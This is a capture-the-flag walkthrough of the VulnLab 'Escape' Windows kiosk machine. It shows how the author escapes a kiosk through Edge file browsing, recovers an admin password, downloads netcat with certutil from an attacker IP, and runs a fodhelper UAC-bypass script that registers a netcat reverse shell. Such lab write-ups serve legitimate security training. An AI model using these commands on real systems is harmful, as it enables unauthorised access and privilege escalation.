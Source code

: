 ```yaml
---
title: VulnLab -- Escape Writeup
date: 2025-03-30 00:00:00 +0800
categories: [windows machine]
tags: [kiosk]
image:
    path: images/escape-banner.png
---
```

# Escape

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Escape** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/escape-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 3389 --min-rate=1000 10.10.120.101
```

![image.png](../images/escape.png)

Now let’s try to connect to the RDP.

```bash
xfreerdp /v:10.10.120.101 -sec-nla
```

![image.png](../images/escape%201.png)

> Notice that the message say to connect to the machine using
username: KisokUser0
password: no password
> 

so let’s connect to the RDP using the user KioskUser0

![image.png](../images/escape%202.png)

Now let’s go and open the edge bowser and search for the C directory

```bash
file:///c:/
```

![image.png](../images/escape%203.png)

notice that there is a folder named admin so let’s navigate to it!

![image.png](../images/escape%204.png)

notice that we got the password of the administrator.

Now let’s get the user flag by navigating to the users folder

```bash
file:///C:/Users/kioskUser0/Desktop/user_07eb46.txt
```

![image.png](../images/escape%205.png)

Now let’s get the admin password using the Remote Desktop Plus application.

Now let’s import the profile.xml to the application

![image.png](../images/escape%206.png)

Now let’s open BulltesPassView that will help recovering the password from bullet format

![image.png](../images/escape%207.png)

> Now notice that now know that got the credentails
username: admin
password: Twisting3021
> 

Now let’s go back to Microsoft edge and retrieve the cmd

```bash
file:///C:/Windows/System32/cmd.exe
```

![image.png](../images/escape%208.png)

now let’s view it in the download file

![image.png](../images/escape%209.png)

now rename the executable to msedge as this is allowed application to run

![image.png](../images/escape%2010.png)

Now let’s run it

![image.png](../images/escape%2011.png)

As we see we got access to the cmd!

Now let’s use run as and open cmd as the admin user

```bash
runas /user:Escape\admin cmd.exe
```

![image.png](../images/escape%2012.png)

now let’s see our new user.

![image.png](../images/escape%2013.png)

Now let’s see our privileges

```bash
whoami /all
```

![image.png](../images/escape%2014.png)

> Since we are in admin group admin medium integrity level we can do UAC bypass and gain full access
> 

First let’s transfer net cat.

```bash
certutil -urlcache -f http://10.8.5.233/nc.exe nc.exe
```

![image.png](../images/escape%2015.png)

Now let’s go and abuse the UAC and get full access reverse shell.

Start a listener

```bash
nc -lvnp 1337 
```

![image.png](../images/escape%2016.png)

Now let’s gain a shell

```bash
powerhsell -ep bypass
```

and paste this PowerShell script in the terminal

```bash
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "C:\Users\admin\Desktop\nc.exe 10.8.5.233 1337 -e cmd.exe" -Force
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

![image.png](../images/escape%2017.png)

Now let’s go back to our listener.

![image.png](../images/escape%2018.png)

we didn’t get anything 😞

But! we can run cmd to get admin privilege 

```bash
Start-Process -Verb runas cmd.exe
```

![image.png](../images/escape%2019.png)

Now let’s see our privs.

```bash
whoami /priv
```

![image.png](../images/escape%2020.png)

and we got the full access

now let’s go to the root directory

```bash
cd c:\users\administrator\desktop
```

![image.png](../images/escape%2021.png)

amazing we got the root flag!

![image.png](../images/escape%2022.png)

That’s it for the **Escape** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX